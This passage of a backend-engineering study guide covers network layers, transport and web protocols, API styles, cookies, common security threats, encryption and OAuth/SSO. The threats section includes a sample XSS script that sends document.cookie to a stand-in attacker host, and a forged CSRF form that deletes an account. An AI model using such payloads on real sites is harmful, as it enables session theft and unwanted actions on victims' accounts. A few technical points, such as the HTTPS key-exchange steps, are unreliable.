This is the layer responsible for opening and closing communication between the two devices. The time between when the communication is opened and closed is known as the session. The session layer ensures that the session stays open long enough to transfer all the data being exchanged, and then promptly closes the session in order to avoid wasting resources. The session layer also synchronizes data transfer with checkpoints. It allows multiple applications to establish connections and maintain ongoing communication while providing synchronisation and recovery mechanisms. When you visit a website and perform actions like logging in, the session layer manages the session between your browser and the web server, maintaining stateful communication.

#### Transport

The transport layer (also known as layer 4) is responsible for end-to-end communication between the two devices. This includes taking data from the session layer and breaking it up into chunks called segments before sending it to the Network layer (layer 3). It is also responsible for reassembling the segments on the receiving device into data the session layer can consume. It divides large chunks of data into smaller segments and provides mechanisms for error detection, flow control, and retransmission. One widely used transport layer protocols are the Transmission Control Protocol (TCP) and User Datagram Protocol (UDP). When you download a large file, TCP breaks it down into smaller segments, numbers them, and sends them to the destination. The receiving end uses acknowledgment messages to ensure that all segments are received correctly, requesting retransmission if necessary.

#### Network

The network layer manages the logical addressing and routing of data packets across different networks. The network layer is responsible for facilitating data transfer between two different networks. The network layer breaks up segments from the transport layer into smaller units, called packets, on the sender's device, and reassembles these packets on the receiving device. The network layer also finds the best physical path for the data to reach its destination this is known as routing. The most well-known protocol at the network layer is the Internet Protocol (IP). If the two devices communicating are on the same network, then the network layer is unnecessary.

#### Data Link

The data link layer is very similar to the network layer, except the data link layer facilitates data transfer between two devices on the same network. The data link layer takes packets from the network layer and breaks them into smaller pieces called frames. It establishes and terminates a connection between two physically connected devices, ensuring error-free transmission. A common example of data link layer protocols is the Ethernet protocol, which defines how data is formatted into frames and how these frames are transmitted between devices.

#### Physical

This layer includes the physical equipment involved in the data transfer, such as the cables and switches. This is also the layer where the data gets converted into a bit stream, which is a string of 1s and 0s. The physical layer of both devices must also agree on a signal convention so that the 1s can be distinguished from the 0s on both devices. It deals with the electrical, mechanical, and procedural aspects of data transmission. When you connect your computer to a local area network (LAN) using an Ethernet cable, you are utilizing the physical layer.

### Network protocols in OSI model





## TCP and UDP

### TCP

Transmission Control Protocol (TCP) is connection-oriented, meaning once a connection has been established, data can be transmitted in both directions. TCP has built-in systems to check for errors and to guarantee data will be delivered in the order it was sent, making it the perfect protocol for transferring information like still images, data files, and web pages. Examples include peer-to-peer sharing methods like File Transfer Protocol (FTP), Secure Shell (SSH), and Telnet. It is also used to send and receive email through Internet Message Access Protocol (IMAP), Post Office Protocol (POP), and Simple Mail Transfer Protocol (SMTP), and for web access through the Hypertext Transfer Protocol (HTTP).

#### TCP in action:

Suppose you are downloading a large file from a server to your computer. Here's how TCP ensures reliable data transfer:


   - **Establishing a Connection:** Before data transfer can begin, TCP establishes a connection between the client (your computer) and the server. This process involves a three-way handshake, where the client and server exchange synchronization (SYN) and acknowledgment (ACK) packets to establish a connection.
   - **Reliable and Ordered Data Transfer** Once the connection is established, TCP breaks the file into smaller segments and assigns a sequence number to each segment. The sender then transmits these segments over the network. The receiver acknowledges the receipt of each segment. If the sender does not receive an acknowledgment within a specified time, it assumes the packet was lost and retransmits it. If a segment is lost or damaged during transmission, the receiver requests the sender to retransmit the missing segment based on sequence numbers. This ensures reliable data delivery.
   - **Flow Control and Congestion Control** TCP adjusts the transmission rate based on the receiver's ability to handle data and the network conditions. If the receiver's buffer is nearly full, it sends a flow control signal to the sender, instructing it to slow down the data transmission. Additionally, TCP monitors the network for signs of congestion and adapts the transmission rate to avoid overwhelming the network. TCP uses various congestion control algorithms, such as TCP Reno and TCP Cubic.
   - **Connection Termination** Once the file transfer is complete, TCP performs a four-way handshake to gracefully terminate the connection. This ensures that all data has been received and both the client and server are ready to close the connection.

But while TCP is instinctively reliable, its feedback mechanisms also result in a larger overhead, translating to greater use of the available bandwidth on the network.

### UDP

User Datagram Protocol (UDP) is a simpler, connectionless internet protocol in which error-checking and recovery services are not required. With UDP, there is no overhead for opening a connection, maintaining a connection, or terminating a connection. Data is continuously sent to the recipient, whether or not they receive it. It is commonly used for applications that prioritize speed and low overhead, such as real-time streaming, online gaming, DNS (Domain Name System) queries, and VoIP (Voice over IP). We should use UDP over TCP when we need the lowest latency and late data is worse than the loss of data.

#### UDP in action:

Consider the example of a real-time video streaming application:


   - **Connectionless Communication:** UDP is a connectionless protocol, unlike TCP's three-way handshake, UDP does not require the overhead of connection establishment and teardown. This characteristic allows for fast and lightweight data transmission.
   - **Packets and Transmission:** The video stream is divided into small packets, each containing a portion of the video data. These packets are encapsulated with UDP headers, which include the source and destination port numbers.
   - **Unreliable Delivery:** The UDP packets are transmitted from the streaming server to your device over the internet. Since UDP does not guarantee reliable delivery, some packets may be lost or arrive out of order. However, for real-time streaming, it is often more crucial to receive the latest frames quickly than to wait for lost packets to be retransmitted.
   - **Handling Lost Packets:** In the case of lost packets, the application layer of the video streaming service may employ techniques such as forward error correction or buffering to mitigate the impact. Forward error correction introduces redundancy in the transmitted data to allow the receiver to reconstruct missing or corrupted packets. Buffering helps smooth out the playback by storing a certain amount of video data in advance.

## TCP vs UDP

TCP is a connection-oriented protocol, whereas UDP is a connectionless protocol. A key difference between TCP and UDP is speed, as TCP is comparatively slower than UDP. Overall, UDP is a much faster, simpler, and more efficient protocol, however, retransmission of lost data packets is only possible with TCP.

TCP provides ordered delivery of data from user to server (and vice versa), whereas UDP is not dedicated to end-to-end communications, nor does it check the readiness of the receiver.

| Feature             | TCP                                         | UDP                                |
|---------------------|---------------------------------------------|------------------------------------|
| Connection          | Requires an established connection          | Connectionless protocol            |
| Guaranteed delivery | Can guarantee delivery of data              | Cannot guarantee delivery of data  |
| Re-transmission     | Re-transmission of lost packets is possible | No re-transmission of lost packets |
| Speed               | Slower than UDP                             | Faster than TCP                    |
| Broadcasting        | Does not support broadcasting               | Supports broadcasting              |
| Use cases           | HTTPS, HTTP, SMTP, POP, FTP, etc            | Video streaming, DNS, VoIP, etc    |

## Network Packet

A packet is a formatted unit of data that carries information over a network. It serves as the basic building block for transmitting data across networks, regardless of whether it's a local network or the internet.

They can also contain error-checking information. Packets have a logical structure based on the protocol used, but the general structure of a packet includes a header followed by a payload (data) and an optional trailer (footer). Packets can also have different sizes and structures depending on the underlying network architecture. A packet might also be called a datagram, a frame, or a cell.



## Application layer protocols - HTTP, SSL, HTTPS, HTTP/2

#### HTTP - 

HTTP is an application layer protocol that is used to facilitate communication between web clients, such as web browsers, and web servers.

HTTP requests consist of several components, including:

   - Request method: This specifies the type of action the client wants to perform on the resource. The most common methods are GET, POST, PUT, DELETE, HEAD, OPTIONS, and TRACE.

   - Request URL: This specifies the location of the resource the client wants to access.

   - Request headers: These contain additional information about the request, such as the character encoding, compression, and authentication details.

   - Request body: This contains the data the client wants to send to the server, such as form data, JSON, or XML.

HTTP responses also consist of several components, including:

   - Response status code: This indicates the status of the request, such as 200 for success or 404 for resource not found.

   - Response headers: These contain additional information about the response, such as the content type, character encoding, and caching details.

   - Response body: This contains the requested data, such as an HTML page, JSON, or XML.

   ```
   // HTTP POST request body
   
   POST /submit_form.php 
   
   HTTP/1.1 
   
   Host: [www.example.com](www.example.com)
   
   Content-Type: application/x-www-form-urlencoded 
   
   Content-Length: 20 
   
   name=John&age=25
   
   // HTTP POST response body
   
   HTTP/1.1 200 OK 
   
   Content-Type: text/html 
   
   Content-Length: 50
   
   <html> <body> <h1>Thank you for submitting the form!</h1> </body> </html>
   
   ```

#### SSL (Secure Sockets Layer)

SSL protocol is a security protocol that uses encryption to protect data exchanged between a client and a server. SSL is used to protect sensitive information, such as passwords, credit card numbers, and personal information, from being intercepted by unauthorized third parties.

SSL protocol was replaced by TLS (Transport Layer Security) protocol in 1999, but the term "SSL" is still widely used to refer to both SSL and TLS protocols.

For the SSL connection to be established, the client and server go through a series of steps to verify each other before they can securely establish a secure mode of communication.



Once the SSL handshake is complete, the client and server can exchange data securely using the session keys that were generated during the handshake process.

#### HTTPS 

HTTPS is the secure version of HTTP (Hypertext Transfer Protocol).HTTPS works by using SSL/TLS (Secure Sockets Layer/Transport Layer Security) to encrypt the data transferred between a client and server. SSL/TLS works by establishing a secure connection between the client and server using public and private keys.

Here's a step-by-step overview of how HTTPS works:

   - The client initiates a secure connection with the server by sending a request for a secure connection.

   - The server responds by sending its SSL/TLS certificate, which contains its public key.

   - The client verifies the SSL/TLS certificate and sends its own public key to the server.

   - The server verifies the client's SSL/TLS certificate and sends a message encrypted with the client's public key.

   - The client decrypts the message using its private key and sends a final message encrypted with the server's public key.

   - The server decrypts the message using its private key, and the secure connection is established.

   - Once the secure connection is established, all data transferred between the client and server is encrypted, ensuring that sensitive information cannot be intercepted or modified.

Implementing HTTPS on a website involves obtaining an SSL/TLS certificate and configuring the web server to use HTTPS.

#### HTTP/2

HTTP/2 is a binary protocol released in 2015 that was developed to improve upon the previous version, HTTP/1.1, including slow performance due to multiple requests and responses, header overhead, and lack of encryption.

HTTP/2 works by using a new binary format for transmitting data over the internet. This format is more efficient than the text-based format used by HTTP/1.1, which results in faster loading times for web pages.

There are three main enhancements which came in HTTP/2

   - Multiplexing : It allows multiple requests and responses to be sent over a single connection. This eliminates the need for multiple connections and reduces the latency that can be caused by opening and closing connections.

   - Header Compression : It reduces the amount of data that is sent in the header of each request and response. This reduces the overhead associated with sending and receiving data, resulting in faster performance.

   - Server Push : This allows servers to send additional resources to the client before they are requested. This can improve performance by reducing the number of round trips needed to load a web page.
   
   - Encryption by default

## Long Polling

* Web applications were initially developed around a client-server model, where the web client is always the initiator of transactions like requesting data from the server. Thus, there was no mechanism for the server to independently send, or push, data to the client without the client first making a request.
* Few techniques to overcome this problem - Long Polling, Web Sockets, Server Sent Events (SSE)

**What is long polling?**

- Polling is a technique that allows servers to send information to clients. On another side, Long polling is a variation of traditional polling that enables the server to send data to the client whenever it becomes available. The client sends a request for information to the server, but the server may not immediately respond. Instead, it waits until the data is available and then sends a complete response to the client.
- Long Polling is an efficient way to send information to a client because it reduces the number of HTTP requests required to transmit the same amount of data.
- Long Polling allows the server to keep a client's connection open for as long as possible, only responding when data becomes available or a timeout threshold is reached. This avoids the need to repeat the process for each client until new data becomes available, which helps to conserve resources.


   

Let's understand how long polling works:

- The client sends an HTTP request and waits for a response from the server.
- When an update is available, the server provides the client with a complete response.
- The client then sends a new long-poll request immediately or after a pause to allow for an appropriate latency period.
- A timeout is set for each long-poll request. If the connection is lost due to a timeout, the client must re-establish the connection regularly.

### Advantages

Here are some advantages of long polling:

- Easy to implement, good for small-scale projects.
- Nearly universally supported.

### Disadvantages

A major downside of long polling is that it is usually not scalable. Below are some of the other reasons:

- Creates a new connection each time, which can be intensive on the server.
- Reliable message ordering can be an issue for multiple requests.
- Increased latency as the server needs to wait for a new request.


## Web Sockets

- WebSocket is a communication protocol that enables bidirectional communication between client and server. It provides a full-duplex communication channel over a single TCP connection and allow for data transfer in both directions.
- Once WebSocket connection is established, it remains open until either server or client terminates it. This help us in continuous, real-time communication between the client and the server without the need for frequent re-establishing of the connection, thus reducing the overhead associated with HTTP.
- WebSocket and HTTP protocols have significant differences, but both rely on TCP protocol at the fourth layer (transport layer) of OSI model, and they exist at the seventh layer (application layer).

   

Let's understand how WebSockets work:
- To establish a WebSocket connection, client first initiate a handshake with the server by sending an HTTP request with an "Upgrade"header to upgrade the connection to a WebSocket connection. Note:Client opens WebSocket connection by calling WebSocket constructor, which uses the URL schemas "ws:" or "wss:" for WebSockets (Just like "http:" or "https:" for HTTP).
- Once client request is received by the server, server accepts it by sending a response with a "101 Switching Protocols" status code and a header indicating the use of WebSockets.
- With established WebSocket connection, both client and server can send messages to each other without the need for a new requestresponse cycle. The messages are sent in a binary format using the send() method on the connection object. In the latest specification, the WebSocket connection supports sending both string and binary messages using Blob or ArrayBuffer objects.
- The WebSocket connection remains open until either the client or server closes it.

A web socket can be thought of as an endpoint for communication between two devices—a combination of an IP address and a port number. Sockets provide a programming interface for network communication, allowing backend engineers to establish connections, send and receive data, and manage network protocols.

There are two primary types of sockets commonly used in backend engineering:
   - **Stream Sockets (TCP) :** provide reliable, connection-oriented communication. 
   - **Datagram Sockets (UDP):** offer connectionless, unreliable communication.

### Advantages

Below are some advantages of WebSockets:

- Full-duplex asynchronous messaging.
- Better origin-based security model.
- Lightweight for both client and server.

### Disadvantages

Let's discuss some disadvantages of WebSockets:

- Terminated connections aren't automatically recovered.
- Older browsers don't support WebSockets (becoming less relevant).

## Server-Sent Events (SSE)

- There are two main approaches for delivering data from servers to clients: client pull and server push. In a client pull scenario, the client (such as a web browser) requests data from the server. In a server push scenario, the server continuously sends updates to the client without an initial request.
- Server-Sent Events (SSE) is a type of server push technology that establishes a long-lasting connection between the client and the server that allows the server to automatically send updates (data) to the client via an HTTP connection. It is unidirectional, meaning once the client sends the request it can only receive the responses without the ability to send new requests over the same connection.

### Internal architecture of SSE

   

- To establish connection, the client uses a JavaScript API called EventSource, creates a new JavaScript EventSource object and passes the URL of the endpoint that is expected to return a stream of events.
- The EventSource interface connects to the server over HTTP and receives events in an event-stream or text format.
- The client sends a regular HTTP request to the server and expects to receive a series of event messages in return. Whenever the server writes an event to the HTTP response, the client receives it and processes it in a listener callback function. The HTTP response connection remains open until it is considered stale or until the client closes it.
- It is worth noting that there is a limit to the number of Server-Sent Events connections that can be active at any given time. Most browsers are limited to six SSE connections.
- Also, the server-side implementation of Server-Sent Events can be coded in any programming language, such as Java, C, Python, or Go, while the client-side requires the use of JavaScript.

### Advantages

- Simple to implement and use for both client and server.
- Supported by most browsers.
- No trouble with firewalls.

### Disadvantages

- Unidirectional nature can be limiting.
- Limitation for the maximum number of open connections.
- Does not support binary data.

### Examples

- Uber relied on Server-Sent Events for updating trip information for both drivers and customers.
- Update of news feeds of social media platforms like Twitter, Instagram, and Facebook.

# APIs

- API stands for Application Programming Interface. It is a set of definitions and protocols for building and integrating application software. It's sometimes referred to as a contract between an information provider and an information user establishing the content required from the producer and the content required by the consumer.

- In other words, if you want to interact with a computer or system to retrieve information or perform a function, an API helps you communicate what you want to that system so it can understand and complete the request.

- Different API technologies - REST (most common), GraphQL, gRPC.

## REST APIs

A [REST API](https://www.ics.uci.edu/~fielding/pubs/dissertation/rest_arch_style.htm) (also known as RESTful API) is an application programming interface that conforms to the constraints of REST architectural style and allows for interaction with RESTful web services. REST stands for Representational State Transfer and it was first introduced by [Roy Fielding](https://roy.gbiv.com) in the year 2000.

_In REST API, the fundamental unit is a resource._

### Concepts

Let's discuss some concepts of a RESTful API.

**Constraints**

In order for an API to be considered _RESTful_, it has to conform to these architectural constraints:

- **Uniform Interface**: There should be a uniform way of interacting with a given server. 
- **Client-Server**: A client-server architecture managed through HTTP.
- **Stateless**: No client context shall be stored on the server between requests.
- **Representation-Oriented**: REST APIs use different representations (e.g., JSON, XML) to represent resources. Clients can request a specific representation of a resource using content negotiation, which allows them to specify the desired representation format in the request headers.
- **Cacheable**: Every response should include whether the response is cacheable or not and for how much duration responses can be cached at the client-side.
- **Layered system**: An application architecture needs to be composed of multiple layers.
- **Code on demand**: Return executable code to support a part of your application. _(optional)_


**HTTP Verbs**

HTTP defines a set of request methods to indicate the desired action to be performed for a given resource. Although they can also be nouns, these request methods are sometimes referred to as _HTTP verbs_. Each of them implements a different semantic, but some common features are shared by a group of them.

Below are some commonly used HTTP verbs:

- **GET**: Request a representation of the specified resource.
- **HEAD**: Response is identical to a `GET` request, but without the response body.
- **POST**: Submits an entity to the specified resource, often causing a change in state or side effects on the server.
- **PUT**: Replaces all current representations of the target resource with the request payload.
- **DELETE**: Deletes the specified resource.
- **PATCH**: Applies partial modifications to a resource.
- **TRACE** Retrieves a diagnostic representation of the request and response messages for a specific resource on the server, used for debugging purposes, enabling developers to examine and diagnose potential issues in the request and response cycle.

**HTTP response codes**

[HTTP response status codes](https://en.wikipedia.org/wiki/List_of_HTTP_status_codes) indicate whether a specific HTTP request has been successfully completed.

There are five classes defined by the standard:

- 1xx - Informational responses.
- 2xx - Successful responses.
- 3xx - Redirection responses.
- 4xx - Client error responses.
- 5xx - Server error responses.

For example, HTTP 200 means that the request was successful.

### Advantages

Let's discuss some advantages of REST API:

- Simple and easy to understand.
- Flexible and portable.
- Good caching support.
- Client and server are decoupled.

### Disadvantages

Let's discuss some disadvantages of REST API:

- Over-fetching of data.
- Sometimes multiple round trips to the server are required.

### Use cases

REST APIs are pretty much used universally and are the default standard for designing APIs. Overall REST APIs are quite flexible and can fit almost all scenarios.

### Example

Here's an example usage of a REST API that operates on a **users** resource.

| URI           | HTTP verb | Description         |
|---------------|-----------|---------------------|
| /users        | GET       | Get all users       |
| /users/\{id\} | GET       | Get a user by id    |
| /users        | POST      | Add a new user      |
| /users/\{id\} | PATCH     | Update a user by id |
| /users/\{id\} | DELETE    | Delete a user by id |

## GraphQL

[GraphQL](https://graphql.org) is a query language and server-side runtime for APIs that prioritizes giving clients exactly the data they request and no more. It was developed by [Facebook](https://engineering.fb.com) and later open-sourced in 2015.

GraphQL is designed to make APIs fast, flexible, and developer-friendly. Additionally, GraphQL gives API maintainers the flexibility to add or deprecate fields without impacting existing queries. Developers can build APIs with whatever methods they prefer, and the GraphQL specification will ensure they function in predictable ways to clients.

_In GraphQL, the fundamental unit is a query._

### Concepts

Let's briefly discuss some key concepts in GraphQL:

**Schema**

A GraphQL schema describes the functionality clients can utilize once they connect to the GraphQL server.

**Queries**

A query is a request made by the client. It can consist of fields and arguments for the query. The operation type of a query can also be a [mutation](https://graphql.org/learn/queries/#mutations) which provides a way to modify server-side data.

**Resolvers**

Resolver is a collection of functions that generate responses for a GraphQL query. In simple terms, a resolver acts as a GraphQL query handler.

### Advantages

Let's discuss some advantages of GraphQL:

- Eliminates over-fetching of data.
- Strongly defined schema.
- Code generation support.
- Payload optimization.

### Disadvantages

Let's discuss some disadvantages of GraphQL:

- Shifts complexity to server-side.
- Caching becomes hard.
- Versioning is ambiguous.
- N+1 problem.

### Use cases

GraphQL proves to be essential in the following scenarios:

- Reducing app bandwidth usage as we can query multiple resources in a single query.
- Rapid prototyping for complex systems.
- When we are working with a graph-like data model.

### Example

Here's a GraphQL schema that defines a `User` type and a `Query` type.

```graphql
type Query {
  getUser: User
}

type User {
  id: ID
  name: String
  city: String
  state: String
}
```

Using the above schema, the client can request the required fields easily without having to fetch the entire resource or guess what the API might return.

```graphql
{
  getUser {
    id
    name
    city
  }
}
```

This will give the following response to the client.

```json
{
  "getUser": {
    "id": 123,
    "name": "Karan",
    "city": "San Francisco"
  }
}
```

_Learn more about GraphQL at [graphql.org](https://graphql.org)._

## gRPC

[gRPC](https://grpc.io) is a modern open-source high-performance [Remote Procedure Call (RPC)](https://en.wikipedia.org/wiki/Remote_procedure_call) framework that can run in any environment. It can efficiently connect services in and across data centers with pluggable support for load balancing, tracing, health checking, authentication and much more.

### Concepts

Let's discuss some key concepts of gRPC.

**Protocol buffers**

Protocol buffers provide a language and platform-neutral extensible mechanism for serializing structured data in a forward and backward-compatible way. It's like JSON, except it's smaller and faster, and it generates native language bindings.

**Service definition**

Like many RPC systems, gRPC is based on the idea of defining a service and specifying the methods that can be called remotely with their parameters and return types. gRPC uses protocol buffers as the [Interface Definition Language (IDL)](https://en.wikipedia.org/wiki/Interface_description_language) for describing both the service interface and the structure of the payload messages.

### Advantages

Let's discuss some advantages of gRPC:

- Lightweight and efficient.
- High performance.
- Built-in code generation support.
- Bi-directional streaming.

### Disadvantages

Let's discuss some disadvantages of gRPC:

- Relatively new compared to REST and GraphQL.
- Limited browser support.
- Steeper learning curve.
- Not human readable.

### Use cases

Below are some good use cases for gRPC:

- Real-time communication via bi-directional streaming.
- Efficient inter-service communication in microservices.
- Low latency and high throughput communication.
- Polyglot environments.

### Example

Here's a basic example of a gRPC service defined in a `*.proto` file. Using this definition, we can easily code generate the `HelloService` service in the programming language of our choice.

```protobuf
service HelloService {
  rpc SayHello (HelloRequest) returns (HelloResponse);
}

message HelloRequest {
  string greeting = 1;
}

message HelloResponse {
  string reply = 1;
}
```

## REST vs GraphQL vs gRPC

Now that we know how these API designing techniques work, let's compare them based on the following parameters:

- Will it cause tight coupling?
- How _chatty_ (distinct API calls to get needed information) are the APIs?
- What's the performance like?
- How complex is it to integrate?
- How well does the caching work?
- Built-in tooling and code generation?
- What's API discoverability like?
- How easy is it to version APIs?

| Type    | Coupling | Chattiness | Performance | Complexity | Caching | Codegen | Discoverability | Versioning |
|---------|----------|------------|-------------|------------|---------|---------|-----------------|------------|
| REST    | Low      | High       | Good        | Medium     | Great   | Bad     | Good            | Easy       |
| GraphQL | Medium   | Low        | Good        | High       | Custom  | Good    | Good            | Custom     |
| gRPC    | High     | Medium     | Great       | Low        | Custom  | Great   | Bad             | Hard       |

### Which API technology is better?

Well, the answer is none of them. There is no silver bullet as each of these technologies has its own advantages and disadvantages. Users only care about using our APIs in a consistent way, so make sure to focus on your domain and requirements when designing your API.

## Idempotency

- Idempotency is a property of certain operations or API requests, which guarantees that performing the operation multiple times will yield the same result as if it was executed only once. 
- This principle is especially vital in Distributed Systems and APIs, as it helps maintain consistency and predictability in situations such as network issues, request retries, or duplicated requests.
- This principle simplifies error handling, concurrency management, debugging, and monitoring, while also enhancing the overall user experience.
- GET, HEAD, PUT, DELETE, OPTIONS, and TRACE are idempotent methods, meaning they are safe to be retried or executed multiple times without causing unintended side effects.
- In contrast, POST and PATCH are generally considered non-idempotent, as their outcomes may vary with each request.


# Security

## Cookies

- Cookies are small pieces of data stored on the user's browser by the web server. 
- They are designed to remember specific information about the user or the website across different pages and browsing sessions.
- Cookies are an integral part of web development, enabling stateful interactions on stateless HTTP protocol.

### How does cookies work?

- When a user visits a website, the web server can set cookies on the user's browser by including "Set-Cookie" headers in the HTTP response.
- The browser stores these cookies locally and sends them back to the server with every subsequent request to the same domain.
- Cookies consist of key-value pairs and can have additional attributes like expiration date, domain, and path, which determine when and where the cookie is sent back to the server.

### Purpose of Cookies

- **Session Management**: Cookies are commonly used to manage user sessions and maintain user-specific information as the user navigates through different pages of a website.
- **Personalization**: Cookies can store user preferences and settings to personalize the user experience.
- **Tracking and Analysis**: Cookies are used to track user behavior, such as page visits, clicks, and interactions, for analytics and marketing purposes.
- **Authentication**: Cookies play a crucial role in implementing user authentication, remembering logged-in users, and ensuring secure access to restricted areas.

### Key security considerations

- Avoid storing sensitive information like passwords or personal data in cookies, as they can be accessed and modified by the user.
- Set the "secure" attribute on cookies to ensure they are transmitted only over HTTPS connections, preventing eavesdropping on unsecured networks.
- Set an appropriate expiration time for session cookies to ensure they are automatically deleted after a reasonable period.
- Use the "HttpOnly" attribute to prevent client-side scripts from accessing cookies, mitigating the risk of XSS attacks.

## Types of Security Threats

- Security threats are potential vulnerabilities or weaknesses in a system that can be exploited to compromise the confidentiality, integrity, and availability of data and services. As backend engineers, it is crucial to identify and mitigate these threats to protect sensitive data and maintain the trust of users.

1. **Injection Attacks:** Injection attacks occur when malicious code is injected into user inputs or data sent to the backend, leading to unintended execution of commands. A common example is SQL injection, where an attacker injects SQL code into a web application's input fields to gain unauthorized access to the database.
2. **Cross-Site Scripting (XSS):** XSS attacks involve injecting malicious scripts into web pages viewed by other users. These scripts can steal sensitive information, such as cookies, session tokens, or personal data, leading to unauthorized access.

   ```xml
   <!-- Malicious script injected into a comment section -->
   <script>
     fetch('http://attacker.com/steal?data=' + document.cookie);
   </script>
   ```
3. **Cross-Site Request Forgery (CSRF):** In CSRF attacks, attackers trick authenticated users into performing unintended actions on a website. They forge requests that appear legitimate to the backend and execute actions on behalf of the authenticated user.

   ```html
   // Fake form submitted to perform an action without user's consent
   <form action="https://example.com/deleteAccount" method="POST">
     <input type="hidden" name="userId" value="123">
     <button type="submit">Click Me!</button>
   </form>
   ```
4. **Security Misconfigurations** occur when systems are not appropriately configured, leaving them vulnerable to exploitation. This could include default passwords, open ports, or unnecessary access permissions.

5. **Denial of Service (DoS) Attacks:** DoS attacks aim to overwhelm a system or network, causing it to become unresponsive or crash, resulting in service disruption. 
   - Example - Sending a large number of simultaneous requests to a server, exhausting its resources and causing it to become unresponsive.

6. **Man-in-the-Middle (MITM) Attacks:** MITM attacks occur when an attacker intercepts and potentially alters communication between two parties without their knowledge. For e.g. by intercepting sensitive data exchanged between a user's browser and a web server, such as login credentials or financial information.


## Encryption - Decryption

- Data sent over network communications need to secure from third-party access.
- There are two main processes to protect the data from being accessed by unauthorized users. Encryption is the process of converting plain text into ciphertext, which is unreadable by anyone except those who have the key to decrypt it. Decryption is the reverse process of encryption, which converts ciphertext back into readable plain text.

### Symmetric-Key cryptography

- Also known as private-key cryptography, is a cryptographic technique that uses the same key to encrypt and decrypt data.
- Types:
  - **Block cipher** is a method of encrypting data in which a cryptographic key is used to encrypt and decrypt blocks of data, usually 64 bits in length.
  - **Stream cipher** is a method of encrypting data in which a cryptographic key is used to encrypt and decrypt a stream of data, one bit at a time.

- The **Advanced Encryption Standard (AES)** is a widely used symmetric-key cryptography known for its security and efficiency. It operates on 128-bit blocks of data and supports key lengths of 128, 192, or 256 bits.
- To encrypt data with AES, a secret key (also called a “symmetric key”) is used. This key is combined with the data using an encryption algorithm, and the result is ciphertext. The ciphertext can only be decrypted with the same key that was used to encrypt it.
- AES is a block cipher, which means that it encrypts data in blocks rather than in a single stream. The size of each block is 128 bits. AES also uses what is known as a key schedule, which determines how the key will be used throughout the encryption process.
- AES is fast, secure and efficient. 
- The main disadvantage of AES is that it is a block cipher, which means that it can only encrypt data in blocks. This can be a problem when trying to encrypt large amounts of data, such as video or audio files. Also, being a symmetric - key algorithm, problem arises, if the key is lost or stolen, because anyone who has the key can decrypt the data.


### Asymmetric-Key cryptography

- Also known as public-key cryptography, is a cryptographic technique that uses two different keys: one to encrypt data and one to decrypt it. The encryption key is made public, while the decryption key is kept secret.
- Types:
  - **Digital signature** is a technique used to verify the authenticity of digital data. A digital signature is created by encrypting data with a private key, which can then be decrypted with the public key.
  - **Public key encryption** is a technique used to encrypt data with a public key, which can then be decrypted with the private key. This type of encryption is often used in e-commerce and online banking.

- **RSA (Rivest–Shamir–Adleman)** is an asymmetric encryption algorithm used for secure data transmission and digital signatures. 


### Password Encryption Techniques

- **Hashing** is a one-way function that takes an input (password) and produces a fixed-size string of characters, known as the hash. When a user attempts to log in, the system hashes the entered password and compares it with the stored hash to verify the password's authenticity.
- **Salting** is a technique used in combination with hashing to add an additional layer of security. A salt is a random value generated for each user. During password hashing, the salt is appended to the password, and then the combined value is hashed. The salt ensures that even if two users have the same password, their stored hashes will be different, making it difficult for attackers to use precomputed tables (rainbow tables) to crack passwords.

- **BCrypt** is a widely used cryptographic algorithm that provides secure password hashing, ensuring the protection of sensitive user credentials. 
  - BCrypt is a password-hashing function designed to be slow and computationally expensive, making it difficult for attackers to perform brute-force or dictionary attacks to crack passwords. 
  - It employs the Blowfish cipher, and its key feature is the ability to control the computational cost (the amount of time, effort, and computational resources required to calculate a final hash value), which can be adjusted using cost parameter/work factor to remain resilient against evolving hardware and computing power.


## OAuth 2.0

OAuth 2.0, which stands for Open Authorization, is a standard designed to provide consented access to resources on behalf of the user, without ever sharing the user's credentials. OAuth 2.0 is an authorization protocol and not an authentication protocol, it is designed primarily as a means of granting access to a set of resources, for example, remote APIs or user's data.

### Concepts

The OAuth 2.0 protocol defines the following entities:

- **Resource Owner**: The user or system that owns the protected resources and can grant access to them.
- **Client**: The client is the system that requires access to the protected resources.
- **Authorization Server**: This server receives requests from the Client for Access Tokens and issues them upon successful authentication and consent by the Resource Owner.
- **Resource Server**: A server that protects the user's resources and receives access requests from the Client. It accepts and validates an Access Token from the Client and returns the appropriate resources.
- **Scopes**: They are used to specify exactly the reason for which access to resources may be granted. Acceptable scope values, and which resources they relate to, are dependent on the Resource Server.
- **Access Token**: A piece of data that represents the authorization to access resources on behalf of the end-user.

### How does OAuth 2.0 work?

Let's learn how OAuth 2.0 works:

   

1. The client requests authorization from the Authorization Server, supplying the client id and secret as identification. It also provides the scopes and an endpoint URI to send the Access Token or the Authorization Code.
2. The Authorization Server authenticates the client and verifies that the requested scopes are permitted.
3. The resource owner interacts with the authorization server to grant access.
4. The Authorization Server redirects back to the client with either an Authorization Code or Access Token, depending on the grant type. A Refresh Token may also be returned.
5. With the Access Token, the client can request access to the resource from the Resource Server.

### Disadvantages

Here are the most common disadvantages of OAuth 2.0:

- Lacks built-in security features.
- No standard implementation.
- No common set of scopes.

## OpenID Connect

OAuth 2.0 is designed only for _authorization_, for granting access to data and features from one application to another. OpenID Connect (OIDC) is a thin layer that sits on top of OAuth 2.0 that adds login and profile information about the person who is logged in.

When an Authorization Server supports OIDC, it is sometimes called an Identity Provider (IdP), since it provides information about the Resource Owner back to the Client. OpenID Connect is relatively new, resulting in lower adoption and industry implementation of best practices compared to OAuth.

### Concepts

The OpenID Connect (OIDC) protocol defines the following entities:

- **Relying Party**: The current application.
- **OpenID Provider**: This is essentially an intermediate service that provides a one-time code to the Relying Party.
- **Token Endpoint**: A web server that accepts the One-Time Code (OTC) and provides an access code that's valid for an hour. The main difference between OIDC and OAuth 2.0 is that the token is provided using JSON Web Token (JWT).
- **UserInfo Endpoint**: The Relying Party communicates with this endpoint, providing a secure token and receiving information about the end-user

Both OAuth 2.0 and OIDC are easy to implement and are JSON based, which is supported by most web and mobile applications. However, the OpenID Connect (OIDC) specification is more strict than that of basic OAuth.

## Single Sign-On (SSO)

Single Sign-On (SSO) is an authentication process in which a user is provided access to multiple applications or websites by using only a single set of login credentials. This prevents the need for the user to log separately into the different applications.

The user credentials and other identifying information are stored and managed by a centralized system called Identity Provider (IdP). The Identity Provider is a trusted system that provides access to other websites and applications.

Single Sign-On (SSO) based authentication systems are commonly used in enterprise environments where employees require access to multiple applications of their organizations.

### Components

Let's discuss some key components of Single Sign-On (SSO).

#### Identity Provider (IdP)

User Identity information is stored and managed by a centralized system called Identity Provider (IdP). The Identity Provider authenticates the user and provides access to the service provider.

